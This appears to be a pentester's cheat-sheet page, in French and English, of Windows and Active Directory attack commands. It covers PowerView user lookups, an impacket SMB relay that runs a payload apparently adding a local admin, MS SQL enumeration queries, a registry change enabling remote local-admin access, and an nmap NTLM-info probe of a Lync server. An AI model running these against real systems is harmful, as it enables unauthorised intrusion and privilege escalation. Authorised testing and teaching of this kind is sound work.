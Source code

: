 * pareil pour avoir le sid d'un user
`Get-NetUser -UserName $UserName -Domain $Domain -DomainController $DomainController`
Exemple :
`Get-NetUser -UserName admuser -Domain domain.local -DomainController 192.168.1.1 | Select-Object -Property objectsid`

### Trouver le DN complet d'un user

Comme au dessus, puis :

`Get-NetUser -username $username -domain $FQDNdomain -domaincontroller $server | Select-Object -property distinguishedname`

## Exemples de SMBrelay

``` bash
sudo /home/user/git/impacket/examples/smbrelayx.py -h 192.168.1.1 -e ./addadm-local.exe
```

Il faut avoir préalablement compilé le binaire `addadm-local.exe` pour Windows. (TODO mettre cette partie de cross compilations)

## MS SQL - Requests for pentest

Retrieve the exact version:

``` text
select @@version
```

List all database of the instance:

``` text
SELECT name FROM master.sys.databases
```

List all tables of the database:

``` text
SELECT * FROM INFORMATION_SCHEMA.TABLES
    OR
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES
```

## not admin on Windows 10 ?

If CME or Nessus confirm the local admin account is not able to be `Pwn3d!` (see cme), try this:

``` text
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 0x1
```

## lync / lyncsmash

pour trouver le domaine, il est possible de le récupérer dans l'authentification proposé sur la page /abs/ du serveur lync :
`sudo nmap -Pn -sS -p 443 -vv --script http-ntlm-info -d --script-args http-ntlm-info.root=/abs/ lync.contoso.local`
